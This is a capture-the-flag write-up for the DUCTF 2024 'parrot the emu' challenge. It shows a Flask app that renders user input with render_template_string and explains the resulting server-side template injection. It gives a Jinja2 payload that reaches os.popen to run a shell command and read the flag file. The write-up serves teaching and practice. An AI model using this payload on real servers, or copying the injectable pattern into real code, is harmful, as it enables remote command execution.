



# parrot the emu
It is so nice to hear Parrot the Emu talk back

## Data
* https://web-parrot-the-emu-4c2d0c693847.2024.ductf.dev
* parrot-the-emu.zip

## Solution
The website shows a chat interface, were we can enter text, that will be repeated by Parrot:


The source for this application is provided:
```python
from flask import Flask, render_template, request, render_template_string

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def vulnerable():
    chat_log = []

    if request.method == 'POST':
        user_input = request.form.get('user_input')
        try:
            result = render_template_string(user_input)
        except Exception as e:
            result = str(e)

        chat_log.append(('User', user_input))
        chat_log.append(('Emu', result))

    return render_template('index.html', chat_log=chat_log)

if __name__ == '__main__':
    app.run(debug=True, port=80)
```

The following line here is important:
```python
render_template_string(user_input)
```

Since our input isn't restricted we can inject anything that we want, and it will be rendered as template. That leads to a Server Side Template Injection (SSTI). We can easily verify that:


To get now the flag, we can use this payload:
```python
{{ get_flashed_messages.__globals__.os.popen('cat ./flag').read() }}
```

And this will give us the flag:

